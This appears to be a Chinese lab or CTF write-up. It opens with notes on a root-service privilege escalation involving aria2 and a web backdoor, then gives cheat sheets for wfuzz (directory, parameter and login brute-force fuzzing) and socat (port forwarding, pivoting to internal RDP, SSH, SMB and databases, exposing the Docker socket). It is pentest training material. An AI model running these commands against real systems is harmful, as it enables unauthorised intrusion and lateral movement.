这次也是学到一个新的提权方法，如果一些特定的服务以root权限，我们可以利用该服务的某些功能进行提权。

user.txt 是我在网页通过木马后门拿到的，也没有看到后面的隐写，当时还在纳闷，aria2下载东西需要token，但是aria2服务又不会自己下发token，我在系统里面找了好久，没有找到，看别人wp才知道在user.txt里面。

### wfuzz

wfuzz 是一个常用的 Web 模糊测试工具，主要用来“批量替换请求中的某个位置”，看看服务器会返回什么结果。常见用途有：

- 爆破目录/文件
- 测试参数名/参数值
- 测试子域名
- 测试登录口令
- 发现隐藏接口

------

**常用参数**

- -w：字典文件
- -d：POST 数据
- -H：自定义请求头
- -X：指定方法，如 GET、POST
- -b：带 Cookie
- -u：指定 URL（有些版本直接写 URL 也行）
- --hc：隐藏某个状态码
- --hh：隐藏某个响应长度
- --hw：隐藏某个响应单词数
- --hl：隐藏某个响应行数
- -t：线程数

------

**常见用法**

1. **扫目录**

```
wfuzz -c -w common.txt http://example.com/FUZZ 
```

1. **扫 GET 参数值**

```
wfuzz -c -w ids.txt "http://example.com/user?id=FUZZ" 
```

1. **扫参数名**

```
wfuzz -c -w params.txt "http://example.com/page?FUZZ=test" 
```

1. **POST 模糊测试**

```
wfuzz -c -w users.txt -d "username=FUZZ&password=123456" http://example.com/login 
```

1. **同时 fuzz 两个位置**

```
wfuzz -c -w users.txt -w pass.txt -d "username=FUZZ&password=FUZ2Z" http://example.com/login 
```

- 第一个字典替换 FUZZ
- 第二个字典替换 FUZ2Z

------

**结果怎么看**

输出里常看这几个字段：

- C：HTTP 状态码
- Lines：响应行数
- Word：响应单词数
- Chars：响应字符数

------

**实战示例**

**1）找隐藏后台**

```
wfuzz -c -w common.txt --hc 404 http://example.com/FUZZ 
```

**2）带 Cookie 测试已登录页面**

```
wfuzz -c -w api.txt -b "PHPSESSID=xxxx" http://example.com/FUZZ 
```

**3）带请求头**

```
wfuzz -c -w ids.txt -H "User-Agent: Mozilla/5.0" "http://example.com/item?id=FUZZ" 
```

**4）测试 Host 头 / 子域**

```
wfuzz -c -w subdomains.txt -H "Host: FUZZ.example.com" http://example.com/ 
```

------

**容易混淆的点**

- FUZZ：第一个占位符
- FUZ2Z：第二个占位符
- FUZ3Z：第三个占位符

### socat

**常用命令清单**

- **本地监听并转发到远端**

```
socat TCP-LISTEN:8080,reuseaddr,fork TCP:192.168.56.214:80 
```

- **只绑定本机回环**

```
socat TCP-LISTEN:8080,bind=127.0.0.1,reuseaddr,fork TCP:192.168.56.214:80 
```

- **绑定所有网卡**

```
socat TCP-LISTEN:8080,bind=0.0.0.0,reuseaddr,fork TCP:192.168.56.214:80 
```

- **把本地回环服务暴露出去**

```
socat TCP-LISTEN:6801,bind=0.0.0.0,reuseaddr,fork TCP:127.0.0.1:6800 
```

- **本地新端口转到远端新端口**

```
socat TCP-LISTEN:9000,reuseaddr,fork TCP:10.10.10.5:3389 
```

- **TCP 转 Unix Socket**

```
socat TCP-LISTEN:8080,reuseaddr,fork UNIX-CONNECT:/tmp/app.sock 
```

- **Unix Socket 转 TCP**

```
socat UNIX-LISTEN:/tmp/test.sock,fork TCP:127.0.0.1:3306 
```

- **主动连一个 TCP 服务**

```
socat - TCP:192.168.56.214:445 
```

- **主动连一个 Unix Socket**

```
socat - UNIX-CONNECT:/var/run/docker.sock 
```

- **UDP 监听**

```
socat UDP-LISTEN:5353,reuseaddr,fork - 
```

- **发送 UDP 数据**

```
echo "test" | socat - UDP:192.168.56.214:161 
```

- **SSL 包装转发**

```
socat OPENSSL-LISTEN:8443,cert=server.pem,key=server.key,reuseaddr,fork TCP:127.0.0.1:8080 
```

- **连接远端 SSL 服务**

```
socat - OPENSSL:192.168.56.214:443,verify=0 
```

- **带调试输出运行**

```
socat -d -d TCP-LISTEN:8080,reuseaddr,fork TCP:192.168.56.214:80 
```

- **后台运行**

```
nohup socat TCP-LISTEN:8080,reuseaddr,fork TCP:192.168.56.214:80 >/tmp/socat.log 2>&1 &
```

------

**10 个常见转发场景**

- **1. 暴露本地回环 Web**

```
socat TCP-LISTEN:8080,bind=0.0.0.0,reuseaddr,fork TCP:127.0.0.1:80 
```

- 访问靶机 8080，实际就是访问它本机的 127.0.0.1:80
- **2. 暴露本地回环管理端口**

```
socat TCP-LISTEN:6801,bind=0.0.0.0,reuseaddr,fork TCP:127.0.0.1:6800 
```

- 适合把只监听本地的管理面板临时映射出来
- **3. 转发到内网 RDP**

```
socat TCP-LISTEN:13389,reuseaddr,fork TCP:10.10.10.23:3389 
```

- 用跳板机把内网 Windows 远程桌面引出来
- **4. 转发到内网 SSH**

```
socat TCP-LISTEN:10022,reuseaddr,fork TCP:10.10.10.15:22 
```

- 外部连跳板机 10022，实际进内网主机 22
- **5. 转发到内网 SMB**

```
socat TCP-LISTEN:1445,reuseaddr,fork TCP:10.10.10.8:445 
```

- 用于文件共享、认证测试链路验证
- **6. 转发数据库端口**

```
socat TCP-LISTEN:13306,reuseaddr,fork TCP:10.10.10.20:3306 
```

- 常见于 MySQL/MariaDB 内网访问验证
- **7. HTTP 经 Unix Socket 暴露**

```
socat TCP-LISTEN:8080,reuseaddr,fork UNIX-CONNECT:/tmp/backend.sock 
```

- 把 Nginx/uwsgi/gunicorn 之类的 Unix Socket 服务映射出来
- **8. 把 Docker Socket 映射成 TCP**

```
socat TCP-LISTEN:2375,bind=127.0.0.1,reuseaddr,fork UNIX-CONNECT:/var/run/docker.sock 
```

- 方便本地工具通过 TCP 连 Unix Socket
- **9. SSL 外壳包住明文服务**

```
socat OPENSSL-LISTEN:9443,cert=server.pem,key=server.key,reuseaddr,fork TCP:127.0.0.1:9000 
```

- 把明文服务套一层 TLS，便于某些链路穿透或测试
- **10. 单纯做链路探测/调试**

```
printf 'GET / HTTP/1.1\r\nHost: 10.10.10.5\r\n\r\n' | socat - TCP:10.10.10.5:80 
```

- 用来验证端口通不通、服务回不回、响应长什么样